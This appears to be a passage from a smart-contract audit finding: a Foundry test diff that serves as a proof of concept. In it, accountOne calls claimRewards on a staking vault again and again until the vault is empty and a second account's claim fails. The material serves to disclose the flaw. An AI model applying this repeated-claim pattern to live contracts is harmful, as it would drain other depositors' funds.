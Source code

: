 ```diff
+        console.log("Claiming rewards for accountOne.\n");
+        vm.prank(accountOne);
+        vault.claimRewards(accountOne, getBytesArrayFromBytes(blsPubKeyFour));
+        logAccounts();
+
+        console.log("depositing %s wei into the vault.\n", rewardsAmount);
+        vm.deal(address(vault), address(vault).balance + rewardsAmount);
+        vm.warp(block.timestamp + 3 hours);
+        logAccounts();
+
+        console.log("Claiming rewards for accountOne.\n");
+        vm.prank(accountOne);
+        vault.claimRewards(accountOne, getBytesArrayFromBytes(blsPubKeyFour));
+        logAccounts();
+
+        console.log("Claiming rewards for accountOne AGAIN.\n");
+        vm.prank(accountOne);
+        vault.claimRewards(accountOne, getBytesArrayFromBytes(blsPubKeyFour));
+        logAccounts();
+
+        console.log("Claiming rewards for accountOne AGAIN.\n");
+        vm.prank(accountOne);
+        vault.claimRewards(accountOne, getBytesArrayFromBytes(blsPubKeyFour));
+        logAccounts();
+
+        //console.log("Claiming rewards for accountTwo.\n");
+        vm.prank(accountTwo);
+        vault.claimRewards(accountTwo, getBytesArrayFromBytes(blsPubKeyFour));
+
+    }
+
+    function logAccounts() internal {
+        console.log("accountOne previewAccumulatedETH : %i", vault.previewAccumulatedETH(accountOne, vault.lpTokenForKnot(blsPubKeyFour)));
+        console.log("accountOne claimed               : %i", SyndicateRewardsProcessor(vault).claimed(accountOne, address(vault.lpTokenForKnot(blsPubKeyFour))));
+        console.log("accountTwo previewAccumulatedETH : %i", vault.previewAccumulatedETH(accountTwo, vault.lpTokenForKnot(blsPubKeyFour)));
+        console.log("accountTwo claimed               : %i", SyndicateRewardsProcessor(vault).claimed(accountTwo, address(vault.lpTokenForKnot(blsPubKeyFour))));
+        console.log("ETH Balances: accountOne: %i, accountTwo: %i, vault: %i\n", accountOne.balance, accountTwo.balance, address(vault).balance);
+    }
+
 }

```

Note that the AccountOne repeatedly claims until the vault is empty and the claim for accountTwo fails.
